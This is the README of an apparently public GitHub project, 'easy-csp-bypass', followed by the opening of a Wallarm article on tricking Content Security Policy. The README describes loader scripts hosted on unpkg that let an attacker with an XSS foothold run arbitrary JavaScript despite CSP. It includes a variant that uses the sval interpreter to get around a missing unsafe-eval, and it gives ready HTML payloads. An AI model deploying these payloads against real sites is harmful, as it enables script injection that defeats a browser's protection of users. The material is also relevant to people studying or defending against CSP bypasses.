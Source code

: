 # easy-csp-bypass

Just a fun project to see if this code can end up in some CDN, so it would be easier to exploit XSS with CSP.

## How to use ?

Well, it depends.
If you are lucky enough to find unsafe-eval in the CSP configuration, you can use those scenario:

- Classic => /dist/classic.js
- Classic-infinite => /dist/classic-infinite.js
- Url => /dist/url.js

If you can't use eval() because unsafe-eval is not in the configuration, well it's not over !!
I found a Javascript interpreter called [sval](https://github.com/Siubaak/sval).
It can easily bypass the unsafe-eval restriction :) !

- Classic => /dist/sval-classic.js
- Classic-infinite => /dist/sval-infinite.js
- Url => /dist/sval-url.js

## Example

If you have an XSS on a website with CSP, search in the directive 'script-src' for [unpkg.com](https://unpkg.com/) or [jsdeliver](https://www.jsdelivr.com/).
If these domain are whitelist, you win !

```html
  <script src="https://unpkg.com/csp-bypass@1.0.2-0/dist/classic.js"></script>
  <br csp="alert(1)">
```

if 'unsafe-eval' is missing use the sval one:

```html
  <script src="https://unpkg.com/csp-bypass@1.0.2-0/dist/sval-classic.js"></script>
  <br csp="alert(1)">
```


##
#
https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/
#
##


 Neatly bypassing CSP
July 10, 2018 8 Mins Read
bypassing csp	
How to trick CSP in letting you run whatever you want

By bo0om, Wallarm research

Content Security Policy or CSP is a built-in browser technology which helps protect from attacks such as cross-site scripting (XSS). It lists and describes paths and sources, from which the browser can safely load resources. The resources may include images, frames, javascript and more.
